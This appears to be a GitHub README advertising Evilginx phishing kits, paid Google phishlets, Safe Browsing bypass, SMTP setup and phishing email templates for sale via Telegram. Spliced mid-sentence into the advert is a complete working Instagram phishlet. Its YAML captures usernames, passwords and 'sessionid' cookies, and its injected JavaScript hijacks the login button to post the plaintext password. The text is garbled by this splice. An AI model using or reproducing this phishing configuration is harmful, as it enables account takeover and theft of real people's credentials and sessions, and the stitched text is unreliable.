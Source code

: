 # Google Phishlet Evilginx
RED TEAM ATTACK WITH EVILGINX AND GOOGLE PHISHLET

If Ud need Google Phishlet send me a message in telegram @PSDT707

Phishlet only sell, not free.

Conctact me, only if u have resources for buy in USDT, BTC, ETH, DGB..

----------------------------------------------------------------------------------------------------------------------------------------
                                                 EVILGINX MASTERY COURSE (OFFICIAL)

![evilginx-mastery-box-image](https://github.com/Dazmed707/Google-Phishlet-Evilginx/assets/35184132/eee6bf77-a6f0-4203-ba65-781bafd74df9)

BYPASS SAFE BROWSER (RED SCREEN) AVAILABLE

<img width="512" alt="image" src="https://github.com/Dazmed707/Google-Phishlet-Evilginx/assets/35184132/6ecb9ad2-85b3-4109-b345-7611fb1c0619">


GOPHISH HELP INSTALL AVAILABLE (MOD FEATURES FOR PRauthor: '@charlesbel'
min_ver: '2.3.0'
proxy_hosts:
  - {phish_sub: 'www', orig_sub: 'www', domain: 'instagram.com', session: true, is_landing: true}
  - {phish_sub: 'm', orig_sub: 'm', domain: 'instagram.com', session: true, is_landing: false}
sub_filters:
  - {triggers_on: 'www.instagram.com', orig_sub: 'www', domain: 'instagram.com', search: 'https://{hostname}/', replace: 'https://{hostname}/', mimes: ['text/html', 'application/json']}
  - {triggers_on: 'm.instagram.com', orig_sub: 'm', domain: 'instagram.com', search: 'https://{hostname}/', replace: 'https://{hostname}/', mimes: ['text/html', 'application/json', 'application/x-javascript']}
  - {triggers_on: 'm.instagram.com', orig_sub: 'm', domain: 'instagram.com', search: '''{domain}'';', replace: '''{domain}'';', mimes: ['text/html', 'application/json', 'application/x-javascript']}
auth_tokens:
  - domain: '.instagram.com'
    keys: ['sessionid','.*,regexp']
credentials:
  username:
    key: 'user'
    search: '(.*)'
    type: 'post'
  password:
    key: 'unenc_password'
    search: '(.*)'
    type: 'post'
login:
  domain: 'www.instagram.com'
  path: '/accounts/login'
js_inject:
  - trigger_domains: ["www.instagram.com"]
    trigger_paths: ["/accounts/login"]
    trigger_params: []
    script: |
      function lp(){
        var submit = document.querySelectorAll('button[type=submit]')[0];
        submit.setAttribute("onclick", "sendPass()");
        return;
      }
      function sendPass(){
        var password = document.getElementsByName("password")[0].value;
        var xhr = new XMLHttpRequest();
        xhr.open("POST", '/accounts/login/ajax/', true);
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.send("unenc_password="+encodeURIComponent(password));
        return;
      }
      setTimeout(function(){ lp(); }, 1000);PROTECT INSTANCE)

EVILGOPHISH WITH EVILGINX 3.2 AVAILABLE

SMTP FOR GOPHISH AVAILABLE

TEMPLATE FOR SEND EMAIL, GOOGLE, OUTLOOK, YAHOO ETC, AVAILABLE
